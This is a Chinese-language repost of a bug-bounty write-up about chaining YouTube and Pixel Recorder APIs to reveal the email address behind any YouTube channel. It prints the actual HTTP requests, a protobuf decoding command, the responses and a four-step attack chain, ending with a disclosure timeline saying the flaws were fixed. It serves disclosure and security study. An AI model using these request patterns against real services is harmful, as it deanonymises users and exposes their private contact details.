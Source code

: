 #  价值 10000$的可查看任何 YouTube 用户的电子邮件漏洞披露   
 独眼情报   2025-02-13 03:33  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/KgxDGkACWnSNI0Tibr6pBTEZXm5DCzUxISG8GkIRZyhPO1WR5VqXmynoG7fksibVNE3NyY4hovugHia4XItVP4rLA/640?wx_fmt=png&from=appmsg "")  
  
前些时候，我在Google的研究目标中翻查Internal People API（测试版）的发现文档时，注意到一个有趣的现象：  
```
"BlockedTarget": {
  "id": "BlockedTarget",
  "description": "用户间屏蔽功能的目标对象，用于指定屏蔽关系的创建/删除。",
  "type": "object",
  "properties": {
    "profileId": {
      "description": "必填。被屏蔽用户的混淆Gaia ID。",
      "type": "string"
    },
    "fallbackName": {
      "description": "在`BlockPeopleRequest`中必填。被屏蔽用户的显示名称。当被屏蔽用户没有可见资料名称时，查看者可能会在其他界面看到此名称。注意：* `BlockPeopleRequest`中必填（当前验证可能未强制要求，但建议提供）* `UnblockPeopleRequest`中无需设置。",
      "type": "string"
    }
  }
}

```  
  
Google全平台的用户屏蔽功能似乎基于混淆的Gaia ID和显示名称。其中混淆Gaia ID是Google账号的标识符。这看起来很正常，直到我回想起这个支持页面：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/KgxDGkACWnSNI0Tibr6pBTEZXm5DCzUxI4SNGy8dxKyvYXsgmqVR8DBJT4zVOBLHXLDcxAaWIUYqTg15wXeSYsg/640?wx_fmt=png&from=appmsg "")  
  
通过YouTube屏蔽用户竟会泄露其Google账号标识符？我立即测试：在一个直播中屏蔽用户后，屏蔽列表果然显示：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/KgxDGkACWnSNI0Tibr6pBTEZXm5DCzUxIoNrOk7KUj7EIKoficv1q3CDJdn2oJYCTjZX7eQc1JepTYcW8s4o4kKA/640?wx_fmt=png&from=appmsg "")  
  
其中fallbackName是频道名**Mega Prime**，profileId则是其混淆Gaia ID**107183641464576740691**。YouTube本不应暴露频道背后的Google账号，这显然存在问题。历史上曾多次出现通过Gaia ID反查邮箱的漏洞，我确信某些旧系统仍存有这种关联。  
## 将影响范围扩展到40亿YouTube频道  
  
我们虽然能获取直播用户的Gaia ID，但如何扩展到所有YouTube频道？当点击频道菜单的"..."时，会触发请求：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/KgxDGkACWnSNI0Tibr6pBTEZXm5DCzUxIrW19JNjxNMRGZibeVExGWQIYUb78J9yDdDU4uicpGOnaB8iauXDhKtfzw/640?wx_fmt=png&from=appmsg "")  
  
**请求**  
```
POST /youtubei/v1/live_chat/get_item_context_menu?params=R2lrcUp3b1lWVU5vY3pCd1UyRkZiMDVNVmpSdFpYWkNSa2RoYjB0QkVnc3pObGx1VmpsVFZFSnhZeklhQ2hoVlExTkZMV0ZaVDJJdGRVTm5NRFU1Y1VoU2FYTmZiM2M9&pbj=1&prettyPrint=false HTTP/2
Host: www.youtube.com

```  
  
**响应中的protobuf参数**  
```
$ echo -n "Q2lrcUp3b1lWVU5vY3pCd1UyRkZiMDVNVmpSdFpYWkNSa2RoYjB0QkVnc3pObGx1VmpsVFZFSnhZMUFBV0FGaUx3b1ZNVEV6T1RBM05EWTJOVE0zTmpjd016Y3dOVGt3RWhaVFJTMWhXVTlpTFhWRFp6QTFPWEZJVW1selgyOTNjQUElM0Q=" | base64 -d | protoc --decode_raw
1 {
  5 { 1: "UChs0pSaEoNLV4mevBFGaoKA" }
}
12 { 1: "113907466537670370590" } # 目标用户的Gaia ID

```  
  
通过篡改请求参数中的频道ID，我们成功获取到自动生成的主题频道（如UCD2LZAT1j1DyVXq2R2BdusQ）的Gaia ID**103261974221829892167**。  
## 关键拼图：Pixel Recorder  
  
在Pixel Recorder的分享功能中，我们发现其API端点可直接将Gaia ID转换为邮箱：  
  
**请求**  
```
POST /$rpc/java.com.google.wireless.android.pixel.recorder.protos.PlaybackService/WriteShareList HTTP/2
Host: pixelrecorder-pa.clients6.google.com
["7adab89e-4ace-4945-9f75-6fe250ccbe49",null,[["113769094563819690011",2,null]]]

```  
  
**响应**  
```
["28bc3792-9bdb-4aed-9a78-17b0954abc7d",[[null,2,"vrptest2@gmail.com"]]]

```  
  
通过设置超长标题（250万字符）规避通知邮件后，完整的攻击链形成：  
1. 通过YouTube接口泄露目标频道的混淆Gaia ID  
  
1. 在Pixel Recorder创建超长标题的录音并分享给目标Gaia ID  
  
1. 通过API响应获取目标邮箱  
  
1. 清理分享记录  
  
### 时间线  
- 2024/09/15 - 提交漏洞报告  
  
- 2024/09/16 - Google确认漏洞  
  
- 2024/10/03 - 初始修复（YouTube端Gaia ID泄露）  
  
- 2024/11/05 - 获得$3,133奖金  
  
- 2024/12/03 - 追加$7,500奖金（完整攻击链评估）  
  
- 2025/02/09 - 确认所有漏洞修复完成  
  
- 2025/02/12 - 公开披露  
  
该漏洞链展示了现代复杂系统中，跨产品API交互可能引发的隐蔽数据泄露风险。即便单个环节看似无害，组合利用仍可能造成重大影响。  
  
  
